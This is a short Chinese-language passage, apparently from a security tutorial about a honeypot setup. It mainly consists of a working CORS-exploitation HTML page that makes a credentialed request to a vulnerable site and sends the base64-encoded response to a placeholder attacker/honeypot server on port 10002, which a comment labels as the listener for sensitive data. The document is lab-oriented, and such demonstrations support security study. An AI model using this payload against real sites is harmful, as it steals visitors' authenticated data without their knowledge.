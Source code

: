 [![](assets/1699492303-10bf254d9b263aef2d99df9eb7838a54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108112235-0fea9d5a-7de6-1.png)  
这里要特别注意'有 CORS 漏洞的网站'写的是 127.0.0.1 是因为蜜罐是挟持访问者去访问而不是 kali 自己去访问，并且我们已经限制了 kali 无法访问到 CORS 漏洞的网站

```plain
<!DOCTYPE html>
<html>
<head>
    <title>CORS TEST</title>
</head>
<body>
    <div id='output'></div>
    <script type="text/javascript">
            var req = new XMLHttpRequest(); 
            req.onload = reqListener; 
            req.open('get','有 CORS 漏洞的网站',true); 
            //req.setRequestHeader("Content-Type","application/x-www-form-urlencoded;"); 
            req.withCredentials = true;
            req.send();
            function reqListener() {
                new Image().src="http://蜜罐服务器IP:10002/" + window.btoa(unescape(encodeURIComponent(JSON.stringify(req.responseText))))  // 要接收敏感信息的攻击机监听端口
            };
    </script>
</body>
</html>
```
